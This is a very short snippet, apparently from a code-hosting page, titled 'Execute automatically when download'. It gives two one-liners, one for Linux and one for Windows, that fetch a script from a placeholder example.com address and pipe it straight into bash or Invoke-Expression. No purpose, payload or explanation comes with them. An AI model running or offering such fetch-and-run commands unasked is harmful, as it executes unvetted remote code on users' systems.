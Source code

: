 
Execute automatically when download

Linux:-

`curl -s http://example.com/myscript.sh | bash`


Windows:-

`(New-Object System.Net.WebClient).DownloadString('http://example.com/myscript.ps1') | Invoke-Expression`
